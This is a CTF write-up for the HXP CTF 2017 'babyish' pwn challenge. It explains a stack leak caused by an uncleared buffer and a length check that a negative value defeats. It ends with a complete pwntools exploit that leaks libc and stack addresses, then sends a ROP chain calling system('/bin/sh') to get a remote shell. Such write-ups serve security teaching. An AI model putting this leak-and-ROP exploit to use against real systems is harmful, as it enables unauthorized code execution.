 ```yaml
---
layout: post
title: HXP CTF 2017 - babyish
categories: ctf_hxp2017
keywords: "pwn rop"
comments: true
authors:
    - dp1
---
```

{{ page.date | date: "%B %-d, %Y" }}


For this challenge we get a small binary that first asks and prints a name and then reads a string.
Our first vulnerability lies in the `greet` function, where the stack allocated buffer isn't cleared before use.

```cpp
void __cdecl greet(FILE *in, FILE *out)
{
  int v2; // eax
  char buf[64]; // [esp+0h] [ebp-48h]

  printf("Enter username: ");
  v2 = fileno(in);
  read(v2, buf, 64u);
  fprintf(out, "Hey %s", buf);
}
```

Thus when the name is printed back, we get access to some stack variables. In particular, we can leak a libc address and a saved `esp` value.
Having all needed addresses, all that's left to do is overflow the second read by giving it a negative length and rop our way from there.

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  char buf[64]; // [esp+0h] [ebp-5Ch]
  int len; // [esp+40h] [ebp-1Ch]
  int *v7; // [esp+50h] [ebp-Ch]

  v7 = &argc;
  setbuf(stdout, 0);
  greet(stdin, stdout);
  sleep(1u);
  printf("Enter length: ");
  len = num();
  if ( len > 63 )
  {
    puts("No!");
    exit(1);
  }
  printf("Enter string (length %u): ", len);
  v3 = fileno(stdin);
  read(v3, buf, len);
  puts("Thanks, bye!");
  return 0;
}
```
There is still one small detail, though: at the end of main the saved value of esp is loaded back from the stack, so we actually have to add this value into our payload to make the application work. This is the relevant assembly at the end of main:
```cpp
.text:080487E2 010                 pop     ecx ; This loads the saved esp value
.text:080487E3 00C                 pop     ebx
.text:080487E4 008                 pop     esi
.text:080487E5 004                 pop     ebp
.text:080487E6 000                 lea     esp, [ecx-4] ; And here it is restored
.text:080487E9 000                 retn
```

Finally, we can call system and get a shell:
`hxp{b4bY's_2nd_pwn4bLe}`

---
Full exploit script:
```python
from pwn import *

#r = process('./vuln')
r = remote('35.198.98.140', 45067)

r.recvuntil(':')
r.sendline('AAAABBBBCCCCDDD')
leak = r.recvuntil('Enter length:')
stack_leak = u32(leak[21:25])
libc_base = u32(leak[25:29]) - 0xCD18
print 'libc base:  ' + hex(libc_base)
print 'stack leak: ' + hex(stack_leak)

rop = ''
rop += p32(libc_base + 0x3A840) # system
rop += p32(0x08048471) # pop; ret
rop += p32(libc_base + 0x15CD48) # "/bin/sh"

r.sendline('-4294967286')
r.sendline('A' * 80 + p32(stack_leak + 0x10) + 'A' * 28 + rop)

r.interactive()
```

